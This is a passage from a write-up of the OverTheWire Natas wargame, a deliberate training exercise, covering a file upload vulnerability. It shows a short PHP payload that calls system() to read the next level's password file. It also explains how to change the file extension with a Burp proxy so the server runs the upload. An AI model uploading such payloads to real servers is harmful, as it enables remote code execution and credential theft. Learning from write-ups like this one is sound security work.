 Here, it is a simple file upload vulnerability. If we upload a simple PHP file like :

```php
<?php
echo system("cat /etc/natas_webpass/natas13");
?>
```

We should be able to get the password for the next level. However, if you take a look at the HTML code :

```html
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
```

The extension of the file if modified on the client side. If we want to keep the ".php" extension, we need to intercept the upload request and modify the extension to *.php*, it can be done using a proxy like *Burp*
![image-center](/images/2019-03-29-write-up-natas-otw-wargame/file_upload_01_burp.png){: .align-center}
Then, you can browse the link returned by the server and get the password :